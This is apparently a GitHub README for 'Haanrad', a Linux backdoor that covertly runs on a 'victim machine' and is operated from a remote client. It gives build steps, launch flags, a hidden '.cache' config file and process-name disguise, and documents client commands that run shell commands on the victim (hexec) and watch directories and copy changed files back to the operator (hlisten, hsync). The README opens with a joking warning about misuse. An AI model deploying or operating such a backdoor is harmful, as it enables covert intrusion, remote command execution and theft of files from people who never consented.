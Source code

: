 #Haanrad
<b> FULL DISCLOSURE: THIS THING CAN DO BAD THINGS. UNLESS UR A BADMAN OR BATMAN, ITS STRONGLY ADVISED NOT TO BE USED </b>

Haanrad is a backdoor exfiltration system that allows a user to covertly exploit the installed system
haanrad is deployed to. Haanrad can be configured in numerous different ways and is designed to be
tolerant in most systems and adjust to the networks behavior as perceived by the victim machine in order
to "blend in". See the `Features` Section for details on functionality

#Setup

##Prerequisits
You must have cmake and gcc installed along with `libdnet` and `libpcap` development libraries installed in order to compile
Haanrad and the client. Note that Haanrad and the client will only work on the Linux based kernel and possibly some
versions of Mac or BSD

##Installation
Execute the following commands

1. clone the project and `cd` into the project root
2. Execute the following command `cmake .`
3. Then execute `make` if you are on Linux. This will generate all required programs in the project root under the `/bin` folder

##Usage
###Haanrad
Run Haanrad with the following command from within the `/bin` folder
```
./haanrad -c <ipofclient> [--DEBUG] [--DOF] [--HINT] [-t <timetick>] [-h <historylength>]
```
The parameters are as follows:

| Parameter | Purpose                                                                                | Required ? | Config File Support ? | Default                          | Example      |
| --------- | -------------------------------------------------------------------------------------- | ---------- | --------------------- | -------------------------------- | ------------ |
| -c        | Give the dot notation IP of the client                                                 | Yes        | Yes                   | N/A                              | -c 127.0.0.1 |
| -t        | Give time cycles of Haanrad in milliseconds, lower values will make Haanrad run faster | No         | Yes                   | 100                              | -t 450       |
| -h        | Set History Length of how many packet Haanrad will store                               | No         | Yes                   | 100                              | -h 200       |
| --DEBUG   | Get Debug Console Out                                                                  | No         | No                    | Disabled                         | ---DEBUG     |
| --DOF     | Set Haanrad to use default name on rename failure                                      | No         | No                    | Previous name is used on failure | --DOF        |
| --HINT    | Append `-bd` to the process name chosen for Haanrad                                    | No         | No                    | Not Appended                     | --HINT       |
 
####Config File Support
Haanrad supports some of the specified options to be declared within a configuration file. There is a very strict orientation
in how this file must be written in order to be picked up by Haanrad. The configuration file is only read at startup
and is never referred to afterwards. In order for the config file to be detected by haanrad it must be located in the same
location as the `haanrad` binary and named `.cache`. Settings are entered in the format of <key>=<value> with the key
being the supported flag listed above without the preceding dash (`-`). An example configuration file might look like this
```
c=127.0.0.1
t=150
```
Note there is no spacing at the beginning or end of the file, and no comments are accepted within the file. Invalid formatting
of the file may cause Haanrad to even crash and not load at all

###Client
Run the client with the following command from within the `/bin` folder
```
./client [--DEBUG]`
```
The parameters are as follows:

| Parameter | Purpose                             | Required ? | Config File Support ? | Default  | Example |
| --------- | ----------------------------------- | ---------- | --------------------- | -------- | ------- |
| --DEBUG   | Print Debug Information To Console  | No         | No                    | Disabled | --DEBUG |
 
###Interactive Mode
Upon Haanrad connecting to the client, interactive mode will enable. Making a number of commands available on the client. Each command has two layers,
a client specific command, and a haanrad specific command, followed then by the haanrad command parameter. The command structure is as follows:
```
<clientcommand> <haanradcommand> <haanradparam>
```
The following client commands are available:

| Command | Purpose                          |
| ------- | -------------------------------- |
| send    | Send A Command To Haanrad        |
| check   | Check For Responses From Haanrad |

The `check` command in the above table does not have any haanrad commands or haanrad params excepted as check is used specificaly for checking
for any new responses from Haanrad. `send` though has several options available. They are:

| Command | Purpose                                      | Parameter                          |
| ------- | -------------------------------------------- | ---------------------------------- |
| hexec   | Execute a terminal command on Haanrad        | Command to be executed             |
| hlisten | Create/Remove a listener of a directory      | Dir to Create/Remove listenr       |
| hsync   | Create/Remove a sync listener of a directory | Dir to Create/Remove sync listener |

Note the difference between the `hlisten` and `hsync` commands. Executing an `hlisten` will cause Haanrad to setup an inotify listener
in the parameter passed directroy. When an event occurs in this directory, a response will be sent from Haanrad back to the client. Using
`hlisten` this is then all that will happen. The client will simply be notified that an event occurred. If the `hsync` command is used though,
the client will be both notified of the event occurring and will also be sent a copy of the changed file. 

During an `hsync`, the client will download and write the file to the local `sync` directory, that will be generated if it does not previous exist. 
The `sync` directory is orgnaized to emulate the root path of the victim machine thus any synced files will have their folder structure recreated 
within the `sync` folder to emulate that of the victim machine.

Additionaly to the above mentioned commands a number of house keeping commands are available during response failure from Haanrad. The below can be
useful when a transfer fails and the client's buffer is left in an unstable state. Note these command are independent to anything previously
mentioned and do not run under the `send` or `check` client commands. See the examples for clarification.

| Command  | Purpose                                                  |
| -------- | -------------------------------------------------------- |
| bufcheck | Prints the current content of the Client receive buffer  |
| bufclear | Clears the current contents of the Client receive buffer |

Some command examples:
```
# Execute ls on the victim machine
send hexec ls

# Setup a sync listener for directory /haanrad/secret/info
send hsync /haanrad/secret/info

#Clear the client buffer
bufclear

#Print the client buffer
bufcheck
```